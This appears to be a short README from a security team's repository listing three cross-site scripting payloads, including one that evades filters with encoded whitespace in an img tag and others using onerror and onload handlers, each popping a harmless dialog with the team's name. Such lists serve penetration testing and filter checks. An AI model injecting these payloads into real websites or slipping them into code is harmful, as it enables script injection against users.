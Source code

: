 # Grim The Ripper Team by SOSECURE Thailand
### https://medium.com/@grimthereaperteam
### https://www.sosecure.co.th

## XSS Payloads
1. `<img/&#09;&#10;&#11; src=~ onerror=prompt('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

2. `<BODY ONLOAD=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

3. `<img src=x onerror=confirm('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`
